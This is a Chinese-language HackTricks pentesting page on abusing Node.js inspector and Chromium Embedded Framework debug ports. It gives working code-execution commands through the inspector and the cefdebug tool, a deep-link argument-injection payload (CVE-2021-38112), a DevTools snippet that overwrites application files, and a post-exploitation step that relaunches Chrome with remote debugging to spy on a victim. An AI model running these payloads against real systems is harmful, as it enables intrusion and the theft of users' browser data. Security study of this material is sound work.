 # Node inspector/CEF debug abuse

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started)：当使用 `--inspect` 开关启动时，Node.js 进程会监听调试客户端。**默认情况下**，它将在主机和端口 **`127.0.0.1:9229`** 上监听。每个进程还会分配一个 **唯一** 的 **UUID**。

调试客户端必须知道并指定主机地址、端口和 UUID 以进行连接。完整的 URL 看起来像 `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`。

{% hint style="warning" %}
由于 **调试器对 Node.js 执行环境具有完全访问权限**，能够连接到此端口的恶意行为者可能能够代表 Node.js 进程执行任意代码（**潜在的权限提升**）。
{% endhint %}

有几种方法可以启动调试器：
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
当你启动一个被检查的进程时，类似这样的内容将会出现：
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
基于 **CEF** (**Chromium Embedded Framework**) 的进程需要使用参数: `--remote-debugging-port=9222` 来打开 **debugger**（SSRF 保护仍然非常相似）。然而，它们 **而不是** 授予 **NodeJS** **debug** 会话，而是使用 [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) 与浏览器进行通信，这是一个控制浏览器的接口，但没有直接的 RCE。

当你启动一个调试的浏览器时，类似这样的内容将会出现：
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### 浏览器、WebSockets 和同源政策 <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

在网页浏览器中打开的网站可以在浏览器安全模型下进行 WebSocket 和 HTTP 请求。**初始 HTTP 连接**是**获取唯一调试器会话 ID**所必需的。**同源政策****防止**网站能够进行**此 HTTP 连接**。为了进一步防止 [**DNS 重新绑定攻击**](https://en.wikipedia.org/wiki/DNS\_rebinding)**,** Node.js 验证连接的**'Host' 头**是否精确指定了**IP 地址**或**`localhost`**或**`localhost6`**。

{% hint style="info" %}
此**安全措施防止利用检查器**通过**仅发送 HTTP 请求**（这可以通过利用 SSRF 漏洞来完成）来运行代码。
{% endhint %}

### 在运行进程中启动检查器

您可以向正在运行的 nodejs 进程发送**信号 SIGUSR1**以使其**在默认端口启动检查器**。但是，请注意，您需要拥有足够的权限，因此这可能会授予您**对进程内部信息的特权访问**，但不会直接提升权限。
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
这在容器中很有用，因为**关闭进程并启动一个新进程**使用`--inspect`**不是一个选项**，因为**容器**将会被**终止**与进程一起。
{% endhint %}

### 连接到检查器/调试器

要连接到**基于Chromium的浏览器**，可以访问Chrome或Edge的`chrome://inspect`或`edge://inspect` URL。通过点击配置按钮，应该确保**目标主机和端口**正确列出。图像显示了一个远程代码执行（RCE）示例：

![](<../../.gitbook/assets/image (674).png>)

使用**命令行**，您可以通过以下方式连接到调试器/检查器：
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
该工具 [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug) 允许 **查找** 本地运行的 inspectors 并 **注入代码** 到它们中。
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
注意，**NodeJS RCE 漏洞将无法工作**，如果通过 [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) 连接到浏览器（您需要检查 API 以找到有趣的事情来做）。
{% endhint %}

## NodeJS 调试器/检查器中的 RCE

{% hint style="info" %}
如果您来这里是想了解如何从 Electron 中的 [**XSS 获取 RCE，请查看此页面。**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

一些常见的方法来获得 **RCE** 当您可以 **连接** 到 Node **检查器** 时是使用类似的东西（看起来这 **在连接到 Chrome DevTools 协议时将无法工作**）：
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

您可以在此处查看 API: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
在本节中，我将列出我发现人们用来利用此协议的有趣内容。

### 通过深层链接进行参数注入

在 [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) 中，Rhino 安全发现基于 CEF 的应用程序 **在系统中注册了一个自定义 URI** (workspaces://)，该 URI 接收完整的 URI，然后 **使用部分构造的配置启动 CEF 基础应用程序**。

发现 URI 参数被 URL 解码并用于启动 CEF 基础应用程序，允许用户在 **命令行** 中 **注入** 标志 **`--gpu-launcher`** 并执行任意操作。

因此，像这样的有效负载:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
将执行 calc.exe。

### 覆盖文件

更改 **下载文件将要保存的文件夹**，并下载一个文件以 **覆盖** 应用程序的 **源代码**，用你的 **恶意代码** 替换。
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE 和外泄

根据这篇文章：[https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148)，可以获得 RCE 并从 theriver 中外泄内部页面。

### 后期利用

在真实环境中，**在攻陷**使用 Chrome/Chromium 浏览器的用户 PC 后，您可以启动一个 Chrome 进程，**激活调试并转发调试端口**，以便您可以访问它。这样，您将能够**检查受害者在 Chrome 中所做的一切并窃取敏感信息**。

隐秘的方法是**终止每个 Chrome 进程**，然后调用类似于
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## 参考文献

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

